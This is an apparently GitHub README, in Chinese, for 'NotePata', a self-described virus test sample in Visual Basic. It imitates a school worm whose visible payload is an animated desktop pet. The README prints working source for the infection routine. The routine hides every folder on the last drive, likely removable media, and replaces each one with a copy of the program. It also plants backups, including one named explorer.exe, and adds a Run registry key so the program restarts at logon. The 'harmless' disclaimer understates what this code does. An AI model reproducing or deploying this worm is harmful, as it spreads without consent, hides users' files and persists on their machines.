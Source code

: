 # **NotePata - 基于Visual Basic的病毒测试样本**  
##### **声明：本程序为测试样本，本身无实际危害性；切勿使用其从事危害计算机系统的活动，如因不当操作造成危害，概不负责。**  
**程序及源码文件等校验码请[[点此]](/shamd5.md "点此")**
- ## 前情提要
**2023年5月，  
学校的电脑出现了一个病毒. . .  
这个病毒与以往的病毒不同。  
不像木马病毒，隐秘又凶险，  
不像蠕虫病毒，恶毒而无情，  
更不像勒索病毒，敲诈勒索无辜的设备。  
只是在页面底下，出现一个初音桌宠，  
在底部栏活动、奔跑、跳跃。  
一月之间，该病毒传遍各个教室。  
不知病毒由何而来，  
只是，  
同学校相处的最后一个月，  
多了一份特别的挂念. . .**  
- ## 样本简介
**该样本为仿照学校病毒，无毒但具有一定传播力的计算机病毒，由 `CFIT` 于 `2023/7/1` 起编写而成。**
- ## 样本原理
- ##### 文件夹感染
**文件夹感染函数由主题函数```ShowFileList()```实现。
函数代码如下：**
```vb
Private Sub ShowFileList(folderspec) '主体感染函数
On Error GoTo bbzlp0
Dim fs, f, f1, fc
If CreateObject("Scripting.FileSystemObject").DriveExists(folderspec) Then '判断指定盘是否存在
Set fs = CreateObject("Scripting.FileSystemObject")
Set f = fs.getfolder(folderspec)
Set fc = f.SubFolders
For Each f1 In fc '先扫描指定盘的所有文件夹
Debug.Print folderspec + "\" + f1.Name + "\"
If f1.Name <> "System Volume Information" Then '排除"System Volume Information"文件夹
SetAttr folderspec + "\" + f1.Name + "\", vbHidden '隐藏扫描的文件夹
If Dir(folderspec + "\" + f1.Name + ".exe") = "" Then
FileCopy App.Path + "\" + App.EXEName + ".exe", folderspec + "\" + f1.Name + ".exe" '替换为以感染文件夹为名称的应用程序（其实就是复制病毒本体）
End If
End If
If Dir("C:\Backups\", vbDirectory) = "" Then '病毒Notepata本体文件夹
fs.createfolder ("C:\Backups\")
End If
If Dir("D:\Setup\", vbDirectory) = "" Then '病毒explorer代理文件夹
fs.createfolder ("D:\Setup\")
End If
If Dir("C:\Backups\notepata.exe") = "" Then
FileCopy App.Path + "\" + App.EXEName + ".exe", "C:\Backups\notepata.exe" '本体被删除，由此恢复
End If
If Dir("D:\Setup\explorer.exe") = "" Then
FileCopy App.Path + "\" + App.EXEName + ".exe", "D:\Setup\explorer.exe" '代理被删除，由此恢复
End If
If App.EXEName <> "notepata" And App.EXEName <> "explorer" And Me.Enabled = True Then '其余情况下，若非本体及代理，则只执行文件夹打开操作
Shell "explorer " + Chr(34) + folderspec + App.EXEName + Chr(34), vbNormalFocus '打开病毒名称的文件夹
Me.Enabled = False '禁用其余行为
Timer1.Enabled = False '禁用其余行为
Timer2.Enabled = False '禁用其余行为
Timer3.Enabled = False '禁用其余行为
Timer4.Enabled = False '禁用其余行为
Timer5.Enabled = False '禁用其余行为
Timer6.Enabled = False '禁用其余行为
End If
Next
Else
DoEvents
End If
bbzlp0:
If Err.Number > 0 Then
HandleErr '错误处理
End If
End Sub
```
- ##### 传播原理
**由以上代码，通过将指定盘符（最后一个盘符，将于以下提及）内所有文件夹隐藏，替换为以文件夹名称命名的病毒程序，通过病毒程序进一步感染。  
确定最后一个盘符代码如下：**
```vb
'此前变量定义等代码省略
StrDrive = String(100, Chr$(0)) '初始化盘符串
Call GetLogicalDriveStrings(100, StrDrive) '返回盘符串（返回值如"C:\D:\E:\..."）
'...中间代码省略
DriveID = Split(StrDrive, Chr$(0)) '返回光盘盘符到数组DeiveID并逐字符分离
For ii = 0 To UBound(DriveID)
If InStr(DriveID(ii), ":") <> 0 Then
av = av + 1
avail(av) = DriveID(ii)
End If
Next ii
S = avail(av) '获得最末盘符（若可移动硬盘为U盘，则感染盘为U盘）
ShowFileList S '调用上述感染核心函数
```
**除此之外，本样本实现加入开机启动项，使用注册表实现。  
注册表项：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`**
**本样本亦存在代理程序，用于病毒删除后恢复等。具体从源码注释中理解。**
- ##### 桌宠原理
**本样本使用图片逐帧分帧实现动图效果。
逐帧图片如下：**
[![](https://cdn.jsdelivr.net/gh/CFITCorporation/cfitpic@a66715cf1fefc989390869a733b68df61c321c82/pic/2023/07/05/c9b0b75052bc2171ad6afa68cf9f2fe6.png)](./readme.md "逐帧图片")  

**同样，本样本实现光标吸引、无操作6s后开始活动等功能，具体从源码注释中理解。**  
- ## 作者
**本程序样本由`CFIT`独立实现。**
- ## 注意
**如有人向您传播该病毒并要求您测试，请核对本文件头部校验码后操作，否则后果自负。**
